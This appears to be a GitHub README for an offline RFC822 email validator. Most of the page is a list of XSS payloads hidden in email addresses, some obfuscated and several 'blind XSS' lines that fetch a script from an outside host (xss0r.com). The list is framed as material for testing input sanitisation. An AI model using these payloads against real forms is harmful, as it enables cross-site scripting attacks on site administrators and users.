 # RFC822 Email Validator
A sleek, offline, browser-based tool for validating email addresses against the RFC822 standard. Built with HTML, CSS, and JavaScript — perfect for quick manual checks, demos, or client-side validation testing.

# Security Testing
Use this tool to test how email input fields handle potentially dangerous strings. Example payloads:
```
"><svg/onload=confirm(1337)>"@x.y
"><svg/onload=alert`XSS!`>"@x.y
"><svg><script>alert(48)</script>"@x.y
"><svg><title>1</title><script>alert(47)</script>"@x.y
"><svg/onload=eval('confirm(37)')>"@x.y
"><svg/onload=confirm?.(33)>"@x.y
"><math><mtext></title><script>confirm(31)</script>"@x.y
"><svg/onload=(confirm)(29)>"@x.y
"><script>setTimeout(()=>confirm(22))</script>"@x.y
"><svg/onload=Function('confirm(20)')()>"@x.y
"><svg/onload=eval(atob('Y29uZmlybSgxOSk='))>"@x.y
"><svg/onload=confirm(String.fromCharCode(49,56))>"@x.y
"><svg><foreignObject><script>confirm(15)</script></foreignObject></svg>"@x.y
"><svg/onload=alert(8)>"@x.y
"><math><mtext></title><script>confirm(6)</script>"@x.y
"><svg><script>confirm(4)</script>"@x.y
"><script>alert(3)</script>"@x.y
"><svg/onload=confirm(1)>"@x.y
```
Test Blind XSS payloads with RFC822 Email Validator for secure input validation. Example payloads:
```
%22%27%3E%3Cscript%3Ealert%281234567%29%3C%2Fscript%3E@x.y
ibro%27%22%3E%3Cscript%20src%3Dhttps%3A%2F%2Fxss0r.com%2Fc%2Fbrocode%3E%3C%2Fscript%3E@xss0r.com
"'><svg/onload=fetch('https://xss0r.com/c/brocode')>"@x.y
"'><svg><script>fetch('https://xss0r.com/c/brocode')</script></svg>"@x.y
"'><script>fetch('https://xss0r.com/c/brocode')</script>"@x.y
```

Great for detecting weaknesses in forms, input sanitization, or frontend validation logic.

![RFC822 Email Validator](https://github.com/0xlipon/RFC822-Email-Validator/blob/main/RFC822.png?raw=true)

# Inspired By
Inspired by @coffinxp/RFC822-Email-Validator — now redefined for the web.
